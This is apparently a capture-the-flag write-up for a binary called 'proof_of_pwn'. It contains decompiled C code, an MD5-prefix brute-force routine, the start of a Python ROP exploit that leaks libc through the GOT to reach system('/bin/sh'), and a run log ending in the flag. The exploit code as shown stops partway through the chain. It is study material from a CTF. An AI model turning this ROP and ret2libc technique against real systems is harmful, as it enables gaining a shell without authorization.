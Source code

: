 - To reach the ret instruction we need to pass a check

```c
signed __int64 __fastcall sub_400B14(__int64 a1, __int64 a2, __int64 a3)
{
  __int64 v4; // [rsp+8h] [rbp-98h]
  char v5[16]; // [rsp+20h] [rbp-80h]
  char v6; // [rsp+30h] [rbp-70h]
  int j; // [rsp+98h] [rbp-8h]
  int i; // [rsp+9Ch] [rbp-4h]

  v4 = a3;
  MD5_Init(&v6);
  MD5_Update(&v6, a1, a2);
  MD5_Final(v5, &v6);
  for ( i = 0; i <= 15; ++i )
    printf("%02x", (unsigned __int8)v5[i]);
  putchar(10);
  for ( j = 0; j <= 1; ++j )
  {
    if ( *(_BYTE *)(j + v4) != v5[j] )
      return 0LL;
  }
  return 1LL;
}
```

- Since only the first two bytes of the hash are checked we can try to bruteforce it

- We're gonna trigger the vulnerability a first time to execute a short ropchain which will leak an address from the GOT to compute the libc_base and then ret2vuln

- Now we know the addresses of functions and strings from libc in memory

- We're gonna trigger the vulnerability a second time to hijack the execution to `system("/bin/sh")`

### Exploit
```python
def brute_payload(proof, pay):
	def md5(data):
		import hashlib
		m = hashlib.md5()
		m.update(data)
		return m.hexdigest().encode("utf-8")
	i = 0
	while True:
		pay2 = (pay+str(i).encode("utf-8"))[:128]
		h = md5(pay2)
		if proof[:4] == h[:4]:
			return pay2
		i += 1

from pwnapi import *

log.level      = 1
context.binary = ELF("./proof_of_pwn")
libc           = ELF("./libc.so.6")
p              = context.getprocess()

proof = p.recvline().split()[-1]
log.info("required proof: {}".format(proof.decode("utf-8")))

rop       = p64(context.binary.findgadgetbystr("pop rdi;ret"))
rop      += p64(context.binary.sym.got.puts)
rop      += p64(context.binary.sym.plt.puts)
```

[INFO]:  Opening binary ./libc.so.6
[INFO]:  Opening binary ./proof_of_pwn
[INFO]:  Process started with PID 17148 ./proof_of_pwn
[INFO]:  required proof: 289510e3b590959fb0b0177fe57612d3
[INFO]:  libc base:      0x7f10f5e8e000
[INFO]:  system:         0x7f10f5ed3390
[INFO]:  binsh:          0x7f10f601ad57
[INFO]:  required proof: b222d1572a57e35c7416ff32e234f90a
[INFO]:  flag:           ptm{p00r_8rut3f0rc1ng_c4n_h3lp}
[INFO]:  Process 17148 exited with code -7